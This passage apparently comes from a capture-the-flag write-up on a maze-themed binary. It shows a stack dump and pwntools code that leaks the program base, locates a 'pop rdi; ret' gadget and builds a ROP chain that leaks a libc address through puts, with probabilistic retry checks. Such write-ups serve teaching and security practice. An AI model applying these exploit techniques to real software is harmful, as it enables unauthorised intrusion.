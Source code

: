 ```

0x00007fff43a622e0│+0xc860: 0x0000000000000000
0x00007fff43a622e8│+0xc868: 0x000056280c80090d  →  <main+173> xor eax, eax
```

Above you can see the `0x20 * b'\xff'` write from the previous code block, followed by a 32-byte block with the canary, followed by a block starting with location within the base process (the static string `jump up and down\n`).  This will be leaked after `On the wall is written: ` is emitted.  Once we have this, it is safe to destroy.


```python
    p.sendlineafter(b'): ', b'd')
    p.recvuntil(b'On the wall is written: ')

    leak = u64(p.recv(6) + b'\0\0')
    log.info('leak: {leak}'.format(leak = hex(leak)))
    binary.address = leak - binary.search(b'jump up and down\n').__next__()
    log.info('binary.address: {loc}'.format(loc = hex(binary.address)))

    pop_rdi = binary.search(asm('pop rdi; ret')).__next__()

    payload1  = b''
    payload1 += 8 * b'\xff'
    payload1 += p64(pop_rdi)
    payload1 += p64(binary.got.puts)
    payload1 += p64(binary.plt.puts)
    if payload1.find(b'\n') != -1:
        log.critical('NL in payload 1')
        p.close()
        continue
    if payload1[28] & 1 == 0:
        log.critical('cannot backtrack 2')
        p.close()
        continue
    if payload1[28] & 4 == 0:
        log.critical('cannot forwardtrack 4')
        p.close()
        continue

    payload2  = b''
    payload2 += p64(binary.sym.main)
    payload2 += 8 * b'\xff'
    payload2 += 8 * b'\xff'
    payload2 += 8 * b'\xff'
    if payload2.find(b'\n') != -1:
        log.critical('NL in payload 2')
        p.close()
        continue
```

After getting the base process leak we can compute both parts of the ROP chain and check if either have any NLs (will terminate `fgets` early), and if `payload1`'s 28th byte (the wall nibble) will allow East/West movement.  If any of these checks fail, then we'll have to start over.  Ignoring the probably of NLs (small), like the canary block probability, we have a 1 in 4 chance of having the correct bits set.  The combined probably of getting past this point is 1 in 16.

